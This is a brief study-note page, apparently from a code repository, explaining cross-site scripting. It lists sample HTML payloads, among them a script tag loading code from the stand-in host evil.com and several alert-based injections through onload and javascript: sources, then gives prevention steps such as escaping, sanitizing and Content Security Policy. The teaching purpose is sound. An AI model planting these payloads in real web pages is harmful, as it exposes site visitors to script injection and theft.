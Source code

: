 - XSS

What is cross-site scripting (XSS) and how to prevent it?

```html
<!-- External script -->
<script src=http://evil.com/xss.js></script>
<!-- Embedded script -->
<script> alert("XSS"); </script>

<!-- onload attribute in the <body> tag -->
<body onload=alert("XSS")>

<!-- <img> tag XSS -->
<img src="javascript:alert("XSS");">

<!-- <input> tag XSS -->
<input type="image" src="javascript:alert('XSS');">
```

# prevent

Don’t trust any user input
Step 3: Use escaping/encoding
Step 4: Sanitize HTML
Step 6: Use a Content Security Policy

To mitigate the consequences of a possible XSS vulnerability, also use a Content Security Policy (CSP). CSP is an HTTP response header that lets you declare the dynamic resources that are allowed to load depending on the request source.

https://www.acunetix.com/websitesecurity/cross-site-scripting/

- CSRF

- CSP

- Same-origin policy

